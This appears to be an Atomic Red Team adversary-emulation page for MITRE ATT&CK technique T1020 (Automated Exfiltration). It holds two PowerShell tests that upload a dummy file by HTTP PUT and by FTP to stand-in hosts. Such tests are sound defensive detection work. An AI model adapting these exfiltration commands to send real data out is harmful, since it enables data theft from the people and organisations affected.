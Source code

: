 # T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)
<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection. 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)

- [Atomic Test #2 - Exfiltration via Encrypted FTP](#atomic-test-2---exfiltration-via-encrypted-ftp)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | string | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Exfiltration via Encrypted FTP
Simulates encrypted file transfer to an FTP server. For testing purposes, a free FTP testing portal is available at https://sftpcloud.io/tools/free-ftp-server, providing a temporary FTP server for 60 minutes. Use this service responsibly for testing and validation only.

**Supported Platforms:** Windows


**auto_generated_guid:** 5b380e96-b0ef-4072-8a8e-f194cb9eb9ac





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sampleFile | Path of the sample file to exfiltrate. | String | C:&#92;temp&#92;T1020__FTP_sample.txt|
| ftpServer | FTP server URL. | Url | ftp://example.com|
| credentials | FTP server credentials. | String | [user:password]|


#### Attack Commands: Run with `powershell`! 


```powershell
$sampleData = "Sample data for exfiltration test"
Set-Content -Path "#{sampleFile}" -Value $sampleData
$ftpUrl = "#{ftpServer}"
$creds = Get-Credential -Credential "#{credentials}"
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile "#{sampleFile}" -Credential $creds
```






<br/>
